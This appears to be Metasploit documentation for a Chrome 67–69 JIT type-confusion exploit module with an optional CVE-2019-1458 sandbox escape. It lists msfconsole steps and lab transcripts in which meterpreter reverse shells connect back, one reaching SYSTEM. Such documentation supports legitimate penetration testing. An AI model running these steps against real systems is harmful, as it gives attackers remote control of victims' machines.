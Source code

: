 ## Vulnerable Application
This modules exploits a type confusion in Google Chromes JIT compiler.
The Object.create operation can be used to cause a type confusion between a PropertyArray and a NameDictionary.
The type confusion can be used to construct a arbitrary read/write memory primitive, which is
used to write shellcode into rwx region of a WebAssembly object.

This module can target the renderer process (target 0), but Google Chrome must be launched
with the --no-sandbox flag for the payload to execute successfully.

Alternatively, this module can use CVE-2019-1458 to escape the renderer sandbox (target 1). This
will only work on vulnerable versions of Windows (e.g Windows 7) and the exploit can only be triggered once.

Additionally the exploit can cause the target machine to restart when the session is terminated.
A BSOD is also likely to occur when the system is shut down or rebooted.

The module is compatible with any 64bit Google Chrome (version 67, 68 or 69), on any platform (macOS, Linux or Windows),
however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/](https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/)

You should ensure that application does not update itself to the latest version
(by disabling automatic updates or simply not connecting to the internet)
You may also need to disable Windows Defender.

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_object_create`
1. Do: `set target [0|1]`
2. Do: `set payload windows/x64/meterpreter/reverse_tcp`
2. Do: `set LHOST [IP]`
3. Do: `set SRVHOST [IP]`
3. Do: `set URIPATH / [PATH]`
4. Do: `run`

## Options

### TARGET
```
Id  Name
--  ----
0   No sandbox escape (--no-sandbox)
1   Windows 7 (x64) sandbox escape via CVE-2019-1458
```

## Scenarios

### Windows 10 and Google Chrome 69.0.3497.100 with --no-sandbox (target 0)

Start Google Chrome without a sandbox:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf5 > use exploit/multi/browser/chrome_object_create
msf5 exploit(multi/browser/chrome_object_create) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_object_create) > set URIPATH /
URIPATH => /
msf5 exploit(multi/browser/chrome_object_create) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_object_create) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_object_create) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/browser/chrome_object_create) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49682) at 2020-02-29 14:29:06 +0800

msf5 exploit(multi/browser/chrome_object_create) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\69.0.3497.100
meterpreter >
```


### Windows 7 SP1 and Google Chrome 69.0.3497.100 with CVE-2019-1458 (target 1)

```


msf6 > use exploit/multi/browser/chrome_object_create
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_object_create) > set target 1
target => 1
msf6 exploit(multi/browser/chrome_object_create) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_object_create) > set URIPATH /
URIPATH => /
msf6 exploit(multi/browser/chrome_object_create) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/browser/chrome_object_create) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(multi/browser/chrome_object_create) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/chrome_object_create) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[*] 192.168.56.3     chrome_object_create - Sending /payload to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[+] 192.168.56.3     chrome_object_create - Sent stage2 exploit (20000 bytes)
[*] Sending stage (200262 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49159) at 2020-10-12 18:51:15 +0800
[*] Session ID 1 (192.168.56.1:4444 -> 192.168.56.3:49159) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is chrome.exe (2528) as: NT AUTHORITY\SYSTEM
[*] Session is already Admin and System.
[*] Will attempt to migrate to specified System level process.
[*] Trying services.exe (480)
[+] Successfully migrated to services.exe (480) as: NT AUTHORITY\SYSTEM

msf6 exploit(multi/browser/chrome_object_create) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ USER-PC  192.168.56.1:4444 -> 192.168.56.3:49159 (192.168.56.3)
```
